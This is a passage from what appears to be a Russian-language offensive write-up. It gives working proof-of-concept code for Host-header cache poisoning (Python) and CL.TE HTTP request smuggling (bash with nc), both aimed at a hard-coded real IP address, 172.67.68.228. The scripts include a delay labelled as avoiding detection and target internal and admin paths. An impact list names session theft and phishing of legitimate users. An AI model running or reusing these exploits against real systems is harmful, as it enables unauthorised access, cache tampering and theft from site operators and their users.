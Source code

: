 ```python
        "Host: admin.internal",
        "Host: localhost:8080/admin",
        "Host: 127.0.0.1:6379"  # Redis default port
    ]
    
    for payload in poison_payloads:
        headers = {}
        host_value = payload.split(": ")[1]
        headers["Host"] = host_value
        
        print(f"🎯 Testing payload: {payload}")
        
        # Отравляем кэш
        response = requests.get(f"http://{target}/", headers=headers)
        print(f"   Status: {response.status_code}")
        
        if response.status_code == 403:
            print(f"   💀 Potential cache poisoning with: {host_value}")
            
            # Проверяем отравление
            normal_response = requests.get(f"http://{target}/")
            if normal_response.text != response.text:
                print(f"   🎉 CACHE POISONING SUCCESSFUL!")
                break
        
        time.sleep(1)  # Избегаем детекции

# Выполняем атаку
advanced_cache_poisoning("172.67.68.228")
```

#### **Воздействие Cache Poisoning:**
- **Перенаправление пользователей** на вредоносные домены
- **Внедрение контента** в кэш CDN
- **Кража сессионных токенов** через поддельные домены
- **Фишинговые атаки** на легитимных пользователей

### 🎯 **PoC #2: HTTP REQUEST SMUGGLING**

#### **Базовая эксплуатация:**
```bash
#!/bin/bash
# HTTP Request Smuggling эксплуатация
echo "🔥 HTTP SMUGGLING EXPLOIT INITIATED"

# CL.TE smuggling payload
cat << 'EOF' | nc 172.67.68.228 80
POST / HTTP/1.1
Host: 172.67.68.228
Content-Length: 44
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 172.67.68.228
X-Smuggled: true

EOF

echo "💀 HTTP smuggling exploit completed"
```
